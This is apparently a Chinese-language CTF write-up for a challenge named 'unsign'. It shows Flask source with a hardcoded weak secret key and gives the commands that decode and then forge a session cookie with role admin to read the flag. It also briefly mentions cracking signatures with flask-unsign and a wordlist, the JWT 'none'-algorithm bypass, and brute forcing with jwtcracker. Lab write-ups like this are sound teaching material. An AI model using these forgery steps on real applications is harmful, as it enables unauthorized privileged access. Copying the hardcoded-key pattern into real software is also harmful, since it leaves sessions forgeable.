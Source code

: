 # unsign

​	这道题考点为flask-session伪造。

```python
from flask import Flask, render_template, session, g
import base64
import pickle

app = Flask(__name__)
app.config['SECRET_KEY'] = 'admin123'


@app.route('/')
def show_index():
    if not session.get('role'):
        session['role'] = 'anonymous'

    g.role = session['role']

    if g.role == 'admin':
        g.msg = open('/flag').read()
    else:
        g.msg = 'Only admin can get flag!'

    return render_template('info.html')

app.run('0.0.0.0', 8000)
```

​	拿到加密密钥为admin123，使用工具https://github.com/noraj/flask-session-cookie-manager。

​	初次访问cookie为`eyJyb2xlIjoiYW5vbnltb3VzIn0.aH3e0g.rN4l1S6KfG8xN2yvoa60yLtj9jA`

```shell
python flask_session_cookie_manager3.py decode -c "eyJyb2xlIjoiYW5vbnltb3VzIn0.aH3e0g.rN4l1S6KfG8xN2yvoa60yLtj9jA" -s "admin123"
{'role': 'anonymous'}
```

```shell
python flask_session_cookie_manager3.py encode -t "{'role': 'admin'}" -s "admin123"
eyJyb2xlIjoiYWRtaW4ifQ.aH3jIg.CjV7ebNim3aea3wYjVf_oaWPgFU
```

​	修改cookie后访问直接拿到flag。

可以使用flask-unsign爆破

```shell
# flask-unsign
  -u, --unsign
       Attempts to crack the session's signature by iterating over a given wordlist with commonly used .

  --wordlist, -w WORDLIST
       Note: this argument is affected by the "--no-literal-eval" argument.

```

JWT使用jwt.io，线下可以使用

可以使用修改算法为none绕过

爆破使用jwtcracker

爆破字典fu z

# ez-java